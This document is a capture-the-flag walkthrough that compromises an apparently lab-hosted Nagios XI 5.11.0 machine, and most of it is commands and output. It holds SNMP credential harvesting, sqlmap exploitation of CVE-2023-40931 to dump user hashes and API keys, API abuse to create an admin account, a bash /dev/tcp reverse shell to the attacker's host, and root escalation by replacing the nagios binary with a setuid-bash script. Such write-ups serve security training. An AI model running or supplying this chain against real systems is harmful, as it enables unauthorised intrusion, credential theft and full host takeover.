





# Walkthrough

## Recon

### nmap

First I will do nmap to find any open TCP ports

#### nmap -p- --min-rate 10000 10.129.230.96

PORT     STATE SERVICE  
22/tcp   open  ssh  
80/tcp   open  http  
389/tcp  open  ldap  
443/tcp  open  https  
5667/tcp open  unknown  

Then I examine those port more

#### nmap -p 22,80,389,443,5667 -sCV 10.129.230.96

PORT     STATE SERVICE    VERSION  
22/tcp   open  ssh        OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)  
| ssh-hostkey: 
|   3072 61:e2:e7:b4:1b:5d:46:dc:3b:2f:91:38:e6:6d:c5:ff (RSA)  
|   256 29:73:c5:a5:8d:aa:3f:60:a9:4a:a3:e5:9f:67:5c:93 (ECDSA)  
|_  256 6d:7a:f9:eb:8e:45:c2:02:6a:d5:8d:4d:b3:a3:37:6f (ED25519)  
80/tcp   open  http       Apache httpd 2.4.56  
|_http-server-header: Apache/2.4.56 (Debian)  
|_http-title: Did not follow redirect to https://nagios.monitored.htb/  
389/tcp  open  ldap       OpenLDAP 2.2.X - 2.3.X  
443/tcp  open  ssl/http   Apache httpd 2.4.56 ((Debian))  
|_ssl-date: TLS randomness does not represent time  
|_http-server-header: Apache/2.4.56 (Debian)  
| tls-alpn: 
|_  http/1.1
|_http-title: Nagios XI
| ssl-cert: Subject: commonName=nagios.monitored.htb/organizationName=Monitored/stateOrProvinceName=Dorset/countryName=UK  
| Not valid before: 2023-11-11T21:46:55  
|_Not valid after:  2297-08-25T21:46:55  
5667/tcp open  tcpwrapped  
Service Info: Host: nagios.monitored.htb; OS: Linux; CPE: cpe:/o:linux:linux_kerne  

=> So based on openSSH version, the host is running on Debian 11 bullseye

There is a TLS certificate with the common name of nagios.monitored.htb on HTTPS on TCP 443

### Nagios TCP 443
Then I access to URL https://10.129.230.96/

So this site is an instance of Nagios.

Then I clicked Access Nagios XI which leads to a login page at /nagiosxi/login.php

So without creditials or any vulnerability, this should be more challege

But first let's add add our domain to /etc/hosts. Make sure to verify it in by cat /etc/hosts

#### echo '10.129.230.96 monitored.htb nagios.monitored.htb' | sudo tee -a /etc/hosts

I notice that Nagios often use SNMP protocol. 

Let me check nmap

PORT    STATE SERVICE  
123/udp open  ntp  
161/udp open  snmp  

#### snmpwalk -v 2c -c public monitored.htb | tee snmp_data

Then I dump all information from the SNMP using SNMP walk cmd

Then I check process 1312 is a sudo process

#### grep "sudo" snmp_data 

There is interesting line iso.3.6.1.2.1.25.4.2.1.5.605 = STRING: "-c sleep 30; sudo -u svc /bin/bash -c /opt/scripts/check_host.sh svc XjH7VCehowpR1xZB "

where username (svc) and a password (“XjH7VCehowpR1xZB”).

### Shell as nagios

Now I login then it said "The specified user account has been disabled or does not exist."

But if I put svc and different password, the error message is invalid username or password. I tried with other username, and it said the same thing. The credential is good but the account is currently diasable.

Let's get auth token

First I do some feroxbuster

#### feroxbuster -u https://nagios.monitored.htb/nagiosxi/api -m GET,POST -k

The /nagiosxi/api/v1/authenticate GET and POST endpoints jump out

Then I go to Burp Suite to capture and send the request

Then I include username and password. And I got auth token

"username":"svc","user_id":"2","auth_token":"daf4f10a31decff4f756e41909c72f6470aef4c0","valid_min":5,"valid_until":"Tue, 30 Jun 2026 00:57:20 -0400"

Then i vist with the token https://nagios.monitored.htb/nagiosxi/index.php?&token=daf4f10a31decff4f756e41909c72f6470aef4c0

When I login i can see version Nagios XI 5.11.0

Then I go to account info and see API key for the svc user

2huuT2u2QIPqFuJHnkPEEuibGJaJIcHCFDpDb29qSFVlbdO4HJkjfg2VpDNE3PEK

Then I search up nagios xi 5.11.0 exploit and found CVE-2023-40931 SQL injection

SQL injection vulnerability within the banner_message-ajaxhelper.php file we can try to exploit this using sqlmap

#### sqlmap -u "https://nagios.monitored.htb/nagiosxi/admin/banner_message-ajaxhelper.php" --data="id=3&action=acknowledge_banner_message" -p id --cookie "nagiosxi=q1vupf6l7vjlnll6h7hun8t3g7" --batch --threads 10

I found nagiosxi in the database

#### sqlmap -u "https://nagios.monitored.htb/nagiosxi/admin/banner_message-ajaxhelper.php" --data="id=3&action=acknowledge_banner_message" -p id --cookie "nagiosxi=q1vupf6l7vjlnll6h7hun8t3g7" --batch --threads 10 --dbs

Then let is check for how many tables

#### qlmap -u "https://nagios.monitored.htb/nagiosxi/admin/banner_message-ajaxhelper.php" --data="id=3&action=acknowledge_banner_message" -p id --cookie "nagiosxi=q1vupf6l7vjlnll6h7hun8t3g7" --batch --threads 10 -D nagiosxi --tables

And now I will dump xi_users by

#### sqlmap -u "https://nagios.monitored.htb/nagiosxi/admin/banner_message-ajaxhelper.php" --data="id=3&action=acknowledge_banner_message" -p id --cookie "nagiosxi=q1vupf6l7vjlnll6h7hun8t3g7" --batch --threads 10 -D nagiosxi -T xi_users --dump

1       | admin@monitored.htb | Nagios Administrator | IudGPHd9pEKiee9MkJ7ggPD89q3YndctnPeRQOmS2PQ7QIrbJEomFVG6Eut9CHLL | 1       | $2a$10$825c1eec29c150b118fe7unSfxq80cf7tHwC0J0BG2qZiNzWRUx2C | nagiosadmin | 0          | 1701931372 | 1           | 1701427555  | 0            | 0            | IoAaeXNLvtDkH5PaGqV2XZ3vMZJLMDR0                                 | 5              | 0              | 1701427555           |
| 2       | svc@monitored.htb   | svc                  | 2huuT2u2QIPqFuJHnkPEEuibGJaJIcHCFDpDb29qSFVlbdO4HJkjfg2VpDNE3PEK | 0       | $2a$10$12edac88347093fcfd392Oun0w66aoRVCrKMPBydaUfgsgAOUHSbK | svc         | 1          | 1699724476 | 1           | 1699728200  | 1699634403   | 1715201011   | 6oWBPbarHY4vejimmu3K8tpZBNrdHpDgdUEs5P2PFZYpXSuIdrRMYgk66A0cjNjq | 1              | 7              | 1699697433           |

But neither can crack in hashcat

Let's try original API 
#### curl "https://nagios.monitored.htb/nagiosxi/api/v1/system/status?apikey=IudGPHd9pEKiee9MkJ7ggPD89q3YndctnPeRQOmS2PQ7QIrbJEomFVG6Eut9CHLL&pretty=1" -k

Let's do some admin fuzzing 

#### feroxbuster -u https://nagios.monitored.htb/nagiosxi/api/v1 -k --query apikey=IudGPHd9pEKiee9MkJ7ggPD89q3YndctnPeRQOmS2PQ7QIrbJEomFVG6Eut9CHLL -w objects.txt 

I found some interesting endpoint 

404      GET        1l        4w       24c https://nagios.monitored.htb/nagiosxi/api/v1/lost%2Bfound?apikey=IudGPHd9pEKiee9MkJ7ggPD89q3YndctnPeRQOmS2PQ7QIrbJEomFVG6Eut9CHLL
200      GET        1l        3w       34c https://nagios.monitored.htb/nagiosxi/api/v1/objects?apikey=IudGPHd9pEKiee9MkJ7ggPD89q3YndctnPeRQOmS2PQ7QIrbJEomFVG6Eut9CHLL
200      GET        1l        3w       34c https://nagios.monitored.htb/nagiosxi/api/v1/system?apikey=IudGPHd9pEKiee9MkJ7ggPD89q3YndctnPeRQOmS2PQ7QIrbJEomFVG6Eut9CHLL
200      GET        1l        7w       54c https://nagios.monitored.htb/nagiosxi/api/v1/user?apikey=IudGPHd9pEKiee9MkJ7ggPD89q3YndctnPeRQOmS2PQ7QIrbJEomFVG6Eut9CHLL
200      GET        1l        7w       54c https://nagios.monitored.htb/nagiosxi/api/v1/User?apikey=IudGPHd9pEKiee9MkJ7ggPD89q3YndctnPeRQOmS2PQ7QIrbJEomFVG6Eut9CHLL

#### curl -k 'https://nagios.monitored.htb/nagiosxi/api/v1/system/command?apikey=IudGPHd9pEKiee9MkJ7ggPD89q3YndctnPeRQOmS2PQ7QIrbJEomFVG6Eut9CHLL' -s | jq .

I do GET cmd but POST don't do anything

Then I send get to user returns information about the two user 

#### curl -k 'https://nagios.monitored.htb/nagiosxi/api/v1/system/user?apikey=IudGPHd9pEKiee9MkJ7ggPD89q3YndctnPeRQOmS2PQ7QIrbJEomFVG6Eut9CHLL' -s | jq .

{
  "records": 2,  
  "users": [  
    {
      "user_id": "2",  
      "username": "svc",  
      "name": "svc",  
      "email": "svc@monitored.htb",  
      "enabled": "0"  
    },
    {
      "user_id": "1",  
      "username": "nagiosadmin",  
      "name": "Nagios Administrator",  
      "email": "admin@monitored.htb",  
      "enabled": "1"  
    }
  ]
}

#### curl -X POST -k 'https://nagios.monitored.htb/nagiosxi/api/v1/system/user?apikey=IudGPHd9pEKiee9MkJ7ggPD89q3YndctnPeRQOmS2PQ7QIrbJEomFVG6Eut9CHLL' -s | jq .

I try with POST and lead to something create

{
  "error": "Could not create user. Missing required fields.",  
  "missing": [  
    "username",  
    "email",  
    "name",  
    "password"  
  ]  
}

I search up /nagiosxi/api/v1/system/user
and found chianed remote root

Now I create user and Login

#### curl -d "username=ad&password=adad&name=ad&email=ad@monitored.htb&auth_level=admin&force_pw_change=0" -k 'https://nagios.monitored.htb/nagiosxi/api/v1/system/user?apikey=IudGPHd9pEKiee9MkJ7ggPD89q3YndctnPeRQOmS2PQ7QIrbJEomFVG6Eut9CHLL'

{"success":"User account ad was added successfully!","user_id":6}

The user is created. I try logging into the site. It returns a License Agreement:

Then go to config manager in congfigure tab then click to "Commands"

I’ll click “Add new +” and give it a bash reverse shell:

bash -c '/bin/bash -l > /dev/tcp/{our hostIP}/443 0<&1 2>&1'

Then I go to hosts tab found on the left side and click to local host

There’s a “Check command” dropdown, which I’ll set to “ad shell”, and now a “Run Check Command” button appears:

before i run the cmd 

I do

#### nc -lnvp 443

whoami
nagios
hostname
monitored

then I paste python3 -c 'import pty; pty.spawn("/bin/bash")' to make the shell more stable

cat user.txt
c578f84dcd8b7d648a78f989d4dee968

### Shell as root

Now let's get the shell as the root

#### sudo -l

I can check the permission with sudo

####  for service in "postgresql" "httpd" "mysqld" "nagios" "ndo2db" "npcd" "snmptt" "ntpd" "crond" "shellinaboxd" "snmptrapd" "php-fpm"; do find /etc/systemd/ -name "$service.service"; done

Now I save the copy of the nagios binary

/usr/local/nagios/bin$ mv nagios nagios.bk

Now I write a simple bash script to /tmp/x.sh

Then I do 

cat << 'EOF' > /tmp/x.sh
#!/bin/bash
cp /bin/bash /tmp/ad
chown root:root /tmp/ad
chmod 6777 /tmp/ad
EOF

#### cp /tmp/x.sh nagios

#### chmod +x nagios

Then I restart the service

#### sudo /usr/local/nagiosxi/scripts/manage_services.sh restart nagios

nagios@monitored:/usr/local/nagios/bin$ ls -la /tmp/ad

nagios@monitored:/usr/local/nagios/bin$ ls -la /tmp/ad  
ls -la /tmp/ad  
-rwsrwsrwx 1 root root 1234376 Jun 30 01:51 /tmp/ad  

Then do 

#### /tmp/ad -p

root@monitored:~# cat root.txt
5464868873fb1e49af19a1768f4281ed

